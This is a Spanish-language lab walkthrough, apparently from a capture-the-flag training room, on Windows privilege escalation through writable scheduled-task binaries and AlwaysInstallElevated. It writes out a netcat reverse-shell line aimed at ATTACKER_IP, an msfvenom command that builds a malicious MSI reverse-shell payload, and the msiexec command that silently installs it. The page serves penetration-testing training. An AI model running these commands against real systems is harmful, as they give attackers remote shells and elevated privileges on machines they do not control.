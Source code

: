 # Other Quick Wins

### Scheduled Tasks

Al examinar las tareas programadas en el sistema de destino, es posible que vea una tarea programada que perdió su binario o que está usando un binario que puede modificar.

Las tareas programadas se pueden enumerar desde la línea de comando usando el `schtasks` comando sin ninguna opción. Para recuperar información detallada sobre cualquiera de los servicios, puede utilizar un comando como el siguiente:

```
C:\> schtasks /query /tn vulntask /fo list /v
```

<figure><img src="../../.gitbook/assets/20231009171859.png" alt=""><figcaption></figcaption></figure>

Obtendrá mucha información sobre la tarea, pero lo que nos importa es el parámetro "Task To Run", que indica qué ejecuta la tarea programada, y el parámetro "Ejecutar como usuario", que muestra el usuario que se utilizará. para ejecutar la tarea.

Si nuestro usuario actual puede modificar o sobrescribir el ejecutable "Tarea a ejecutar", podemos controlar lo que ejecuta el usuario taskusr1, lo que resulta en una simple escalada de privilegios. Para verificar los permisos del archivo en el ejecutable, usamos `icacls`:

```
C:\> icacls c:\tasks\schtask.bat 
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
```

<figure><img src="../../.gitbook/assets/20231009171926.png" alt=""><figcaption></figcaption></figure>

Como se puede ver en el resultado, el grupo **BUILTIN \ Users** tiene acceso completo (F) sobre el binario de la tarea. Esto significa que podemos modificar el archivo .bat e insertar cualquier carga útil que queramos. Para su comodidad, `nc64.exe`puede encontrarlo en `C:\tools`. Cambiemos el archivo bat para generar un shell inverso:

```shell-session
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

Luego iniciamos un detector en la máquina atacante en el mismo puerto que indicamos en nuestro shell inverso:

```
C:\> schtasks /run /tn vulntask
```

Y recibirá el shell inverso con privilegios taskusr1 como se esperaba:

<figure><img src="../../.gitbook/assets/20231009172055.png" alt=""><figcaption></figcaption></figure>

Vaya al escritorio taskusr1 para recuperar una bandera. No olvides ingresar la bandera al final de esta tarea.

### Always Install Elevated

Los archivos del instalador de Windows (también conocidos como archivos .msi) se utilizan para instalar aplicaciones en el sistema. Suelen ejecutarse con el nivel de privilegio del usuario que lo inicia. Sin embargo, estos se pueden configurar para ejecutarse con privilegios más altos desde cualquier cuenta de usuario (incluso las que no tienen privilegios). Potencialmente, esto podría permitirnos generar un archivo MSI malicioso que se ejecutaría con privilegios de administrador.

**Nota:** El método AlwaysInstallElevated no funcionará en la máquina de esta sala y se incluye solo como información.

Este método requiere que se establezcan dos valores de registro. Puede consultarlos desde la línea de comando usando los siguientes comandos.

```powershell
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer 
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Para poder aprovechar esta vulnerabilidad, se deben configurar ambos. De lo contrario, la explotación no será posible. Si están configurados, puede generar un archivo .msi malicioso usando `msfvenom`, como se ve a continuación:

```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

Como se trata de un shell inverso, también debe ejecutar el módulo Metasploit Handler configurado en consecuencia. Una vez que haya transferido el archivo que ha creado, puede ejecutar el instalador con el siguiente comando y recibir el shell inverso:

```shell
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
